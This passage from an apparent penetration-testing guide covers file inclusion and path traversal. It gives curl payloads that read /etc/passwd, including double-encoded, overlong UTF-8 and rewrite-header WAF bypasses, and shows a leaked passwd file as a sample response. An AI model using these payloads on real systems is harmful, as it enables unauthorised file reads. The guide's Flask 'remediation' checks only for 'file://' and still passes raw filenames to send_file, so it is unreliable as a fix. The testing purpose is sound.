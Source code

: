 **Example Secure Response**:
```
HTTP/1.1 404 Not Found
Content-Type: text/html
<h1>File Not Found</h1>
<p>The requested file could not be included.</p>
```

**Example Vulnerable Response**:
```
HTTP/1.1 200 OK
Content-Type: text/html
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
```

**Remediation**:
- Prevent protocol handlers (Python/Flask):
  ```python
  @app.get('/include')
  def include_file():
      filename = request.args.get('file')
      if filename.startswith('file://'):
          return jsonify({'error': 'Protocol handlers not allowed'}), 403
      return send_file(f'Uploads/{filename}')
  ```

**Tip**: Save cURL commands and responses to a file (e.g., `curl -i ... > output.txt`). Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., HTTP responses).

### 5. Test Path Traversal via Encoding and WAF Evasion with cURL

**Objective**: Ensure encoded traversal sequences and WAF bypass attempts are blocked.

**Steps**:
1. Identify a file parameter vulnerable to traversal (e.g., `item` in `getUserProfile.jsp`).
2. Test encoded traversal:
   ```bash
   curl -i "http://example.com/getUserProfile.jsp?item=%2e%2e%2f%2e%2e%2fetc%2fpasswd"
   ```
3. Test double-encoded traversal (WAF bypass):
   ```bash
   curl -i "http://example.com/getUserProfile.jsp?item=%252e%252e%252f%252e%252e%252fetc%252fpasswd"
   ```
4. Test UTF-8 variant traversal (WAF bypass):
   ```bash
   curl -i "http://example.com/getUserProfile.jsp?item=..%c0%af..%c0%afetc%c0%afpasswd"
   ```
5. Test backend rewrite headers:
   ```bash
   curl -i -H "X-Original-URL: /getUserProfile.jsp?item=../../../../etc/passwd" http://example.com/
   ```
   ```bash
   curl -i -H "X-Rewrite-URL: /getUserProfile.jsp?item=../../../../etc/passwd" http://example.com/
   ```
6. Analyze responses; expected secure response rejects encoded sequences and rewrite headers.
